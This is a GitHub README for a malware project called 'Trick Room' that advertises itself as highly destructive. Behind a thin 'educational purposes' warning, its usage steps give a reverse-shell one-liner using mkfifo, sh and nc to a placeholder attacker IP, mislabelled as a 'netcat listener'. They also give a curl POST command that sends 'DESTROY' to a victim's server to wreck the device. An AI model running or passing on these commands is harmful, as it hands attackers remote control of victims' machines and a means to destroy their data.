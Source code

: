## Trick Room
The Most Advanced Malware Ever Made!

## Creators

- [@LotusEmpire](https://www.github.com/lotusempire64) 





## Installation

```bash
git clone https://github.com/lotusempire64/Trick_Room 
cd Trick_Room  
```
## Warning! 
Don't Run On Your Own Computer, Use Only For Educational Purposes As This Virus Has The Potential To Cause Severe Harm 

## Usage 
Step 1: Start a netcat listener: 
```bash 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc youriphere 8080 >/tmp/f
``` 
Step 2: Use post requests to controll target, it will send back the server IP 
Example Of Post Request To Destroy Victims Device: 
```bash 
curl victimserveriphere -X POST -d DESTROY 
``` 
## This Is A Work In Progress 
If you have any features you want added, find any bugs, or would like to colaborate on this project, email me here: lotusempire6@gmail.com
